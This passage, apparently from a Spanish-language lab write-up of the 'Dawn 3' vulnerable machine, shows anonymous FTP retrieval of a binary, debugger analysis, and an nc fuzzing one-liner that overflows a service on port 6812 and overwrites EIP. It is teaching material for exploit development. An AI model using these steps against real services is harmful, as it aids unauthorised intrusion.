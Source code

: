 ```bash
ftp 192.168.212.13 2100
Connected to 192.168.212.13.
220 pyftpdlib 1.5.6 ready.
Name (192.168.212.13:alexfrancow): anonymous
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rwsrwxrwx   1 dawn3    dawn3      292728 Mar 08  2020 dawn3.exe
226 Transfer complete.
```

## Buffer Overflow
Se descarga el binario y se analiza en una máquina Windows 7 32 bits con Immunity Debugger. Al abrirlo se observa que levanta un puerto, el 6812, este puerto también existirá en la máquina vulnerable.

```bash
C:\Users\alexfrancow>netstat -ano

Active Connections
  Proto  Local Address          Foreign Address        State           
  TCP    0.0.0.0:6812           0.0.0.0:0              LISTENING       2676
```

Se empezará a enviar un conjunto de 'A's para ver si el servicio se corrompe.

```bash
python2.7 -c "print 'A'*888" | nc 192.168.1.88 6812
```

Efectivamente, al enviar 888 'A's el EIP se sobreescribe con '\x41\x41\x41\x41', por lo que se confirma la existencia de un buffer overflow.

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210723180349.png" height="500" width="825" /></p>
